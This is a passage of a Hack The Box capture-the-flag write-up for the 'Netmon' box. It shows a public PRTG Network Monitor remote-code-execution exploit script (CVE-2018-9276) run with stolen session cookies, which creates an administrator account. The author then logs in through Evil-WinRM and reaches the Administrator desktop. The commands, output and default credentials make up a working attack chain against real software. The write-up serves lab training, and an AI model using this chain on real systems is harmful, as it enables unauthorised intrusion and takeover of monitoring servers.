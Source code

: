 
![c078c7d26fc0d3cb59ba88ffccb98295.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-netmon/a85c998d0d0c410ca31ad8d8773ca0e6.png)
We got what we are looking for.

```
root@w0lf:~/CTF/HTB/Boxes/Netmon# ./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.1727861666.1587366074; _gid=GA1.4.436539900.1587366074; OCTOPUS1813713946=e0E2QkI5NkI5LTcwQTYtNDE3MS05MUM0LTc1Q0NDMzlBMTY3RX0%3D"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```
New account is created with `Administrator Privilege`

I used [Evilwinrm](https://github.com/Hackplayers/evil-winrm) to login.
```
root@w0lf:~/tools/evil-winrm# ruby evil-winrm.rb -i 10.10.10.152 -u pentest -p 'P3nT3st!'

Evil-WinRM shell v2.2

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\pentest\Documents> cd ../../
*Evil-WinRM* PS C:\Users> cd Administrator
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         2/2/2019  11:35 PM             33 root.txt


```